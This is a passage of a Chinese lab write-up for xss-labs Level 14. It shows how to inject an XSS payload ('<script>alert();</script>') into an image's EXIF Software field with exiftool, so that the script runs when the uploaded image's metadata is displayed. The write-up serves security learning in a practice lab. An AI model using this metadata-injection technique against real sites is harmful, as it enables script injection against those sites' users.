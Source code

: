 记得还要在代码目录新建一个`uploads`文件夹保存上传的图片。
:::

随便上传一张图片，显示如下即可：
![示例](./xss_fig/xss-labs-level14-example.png)

由于每个exif信息都是回显点，我们只要修改图片的某个exif信息即可。

::: info linux上怎么修改图片exif信息
使用`exiftool`

`exiftool test.jpg` 查看图片exif信息

`exiftool -<fieldName>=<new-value> test.jpg` 修改图片exif信息

参考：[如何在Linux中读取和修改图像文件的EXIF数据](https://www.baeldung-cn.com/linux/exif-data-read-change)
:::

此处我修改一张`test.jpg`图片的`Software`为`<script>alert();</script>`

```sh
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software test.jpg 
Software                        : Adobe Photoshop 21.2 (Windows)
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software="<script>alert();</script>" test.jpg
    1 image files updated
arwell@arwell-GL502VMZ:~/Pictures$ exiftool -Software test.jpg 
Software                        : <script>alert();</script>
```

上传后成功弹窗。
